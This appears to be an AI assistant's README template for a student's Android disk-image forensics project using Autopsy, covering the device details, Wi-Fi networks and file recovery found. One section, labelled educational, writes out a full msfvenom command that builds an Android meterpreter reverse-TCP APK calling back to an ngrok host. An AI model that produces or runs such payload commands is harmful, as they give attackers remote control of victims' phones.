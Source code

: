 For your `README.md`, you want to include an introduction to the project, an overview of the contents, instructions on how someone could replicate the analysis or set up Autopsy, and credits if necessary. Here's a detailed template you can use and modify based on your specific project:

---

# File System Analysis with Autopsy

**Author**: Alaoui Belghiti Hanaa

This repository contains a detailed forensic analysis performed on an Android device image using the digital forensic tool **Autopsy**. The goal of the analysis is to retrieve and examine information related to the device model, MAC address, installed applications, Wi-Fi networks, contacts, search history, and a corrupted media file.

## Project Overview

This project involves:
- Retrieving key forensic details from an Android device.
- Analyzing files and metadata using **Autopsy**.
- Demonstrating how to recover a corrupted file from the device's disk image.

## Tools Used
- **Autopsy**: An open-source digital forensics platform used to conduct the analysis.
- **Kali Linux**: The primary operating system used for conducting the analysis.
- **ExifTool**: A command-line tool used to examine image metadata.
- **MSFVenom**: Used for payload creation, demonstrating a secondary use case in the analysis.

## Key Findings

1. **Device Information**:
   - Device Manufacturer: HUAWEI
   - Model: Ascend Y300

2. **MAC Address**:
   - Ethernet Interface: A4:99:47:3A:6D:C3

3. **Installed Applications**:
   - Browser.apk, Calculator.apk, Contacts.apk

4. **SSID Networks**:
   - Multiple SSID networks were found, with some passwords recovered.

5. **Contacts**:
   - Identified calls made to specific contacts, such as Ivan BBB, along with call duration.

6. **Media Recovery**:
   - A corrupted image was found and successfully restored using metadata manipulation.

## Repository Structure

```bash
File-System-Analysis-with-Autopsy/
├── README.md                  # This file
├── report.md                  # Detailed analysis and results
├── disk_image_analysis/
│   ├── corrupted_file.png      # Corrupted media file recovered from the disk image
│   └── other_artifacts/        # Any additional files or artifacts from the disk image
├── images/                    # Screenshots of the analysis process
│   ├── device_info.png         # Image showing device info found
│   ├── mac_address.png         # MAC address screenshot
│   ├── apk_search.png          # Screenshot of APK files found
│   └── ssid_network.png        # Screenshot showing SSID networks
├── autopsy_script.sh           # Any automation script used (optional)
└── LICENSE                    # Optional license for open sharing
```

## How to Run the Analysis

1. **Install Autopsy**:
   - Follow the installation instructions for Autopsy [here](https://www.autopsy.com/download/).
   
2. **Load Disk Image**:
   - Import the provided disk image into Autopsy for analysis.
   
3. **Analyze Key Areas**:
   - Use the "Keyword Search" functionality to look for information such as "SSID", "MAC", ".apk", and contact names.
   - Use **ExifTool** to recover metadata from images.

4. **File Recovery**:
   - To recover the corrupted file, locate the specific image in the `DCIM` folder and follow the restoration steps provided in `report.md`.

## Corrupted File Details

The corrupted media file found in the device’s `DCIM` folder has been included in the `disk_image_analysis/` folder for reference. The steps to recover the file and view its original content are documented in `report.md`.

## Usage of MSFVenom

For educational purposes, I have included a command used to generate an Android payload with **MSFVenom**, demonstrating the steps to create a malicious APK for further analysis:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=15155 -o /home/joxavy/virus.apk
```

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

For any questions or further information, feel free to contact me via GitHub or email.

---

### Additional Tips:

- You might also want to include a **Challenges Faced** section where you discuss any problems encountered, like working with corrupted files or analyzing specific data.
- Make sure your `README.md` is easy to follow so that someone unfamiliar with your project can understand it quickly. 

This will give your repository a professional touch and clearly explain the purpose of the project and its results. Let me know if you'd like to adjust anything!
